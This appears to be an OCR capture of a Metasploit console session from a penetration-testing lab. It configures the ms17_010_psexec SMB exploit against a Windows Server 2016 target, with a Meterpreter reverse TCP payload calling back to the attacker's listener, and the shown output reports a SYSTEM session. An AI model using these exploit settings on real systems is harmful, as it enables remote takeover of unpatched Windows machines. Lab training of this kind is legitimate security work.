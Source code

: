 ```
Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 1
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                Required  Description
   ----                  ---------------                                --------  -----------
   DBGTRACE              false                                          yes       Show extra debug trace info
   LEAKATTEMPTS          99                                             yes       How many times to try to leak transaction
   NAMEDPIPE                                                            no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlist  yes       List of named pipes to check
                         s/named_pipes.txt
   RHOSTS                10.129.201.97                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-
                                                                                  Metasploit
   RPORT                 445                                            yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                  no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                 no        The service display name
   SERVICE_NAME                                                         no        The service name
   SHARE                 ADMIN$                                         yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/wr
                                                                                  ite folder share
   SMBDomain             .                                              no        The Windows domain to use for authentication
   SMBPass                                                              no        The password for the specified username
   SMBUser                                                              no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.92      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.15.92:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
```